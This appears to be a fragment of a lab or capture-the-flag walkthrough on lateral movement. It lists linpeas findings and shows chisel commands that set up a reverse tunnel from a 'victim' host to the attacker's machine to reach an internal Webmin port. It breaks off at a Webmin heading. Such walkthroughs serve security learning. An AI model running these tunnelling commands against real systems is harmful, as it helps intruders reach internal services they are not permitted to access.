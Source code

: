 ## LATERAL MOVEMENT

![](../.gitbook/assets/7c85aac8e7e34d38bd04116c8cff82e2.png)

## LINPEAS FINDINGS

```text
SUDO VERSION 1.8.21p2
```

```text
127.0.0.1:3306
0.0.0.0:10000
```

```text
/home/dwight/.gnupg/pubring.kbx
/home/dwight/.gnupg/trustdb.gpg
/home/dwight/.config/lxc/config.yml
```

## 127.0.0.1:10000

### USING CHISEL

* MY MACHINE

```text
chisel server -p 9050 --reverse
```

* VICTIM

```text
./chisel client 10.10.0.63:9050 R:10000:127.0.0.1:10000
```

```text
NOW I CAN BROWSE TO 127.0.0.1:10000
```

### WEBMIN
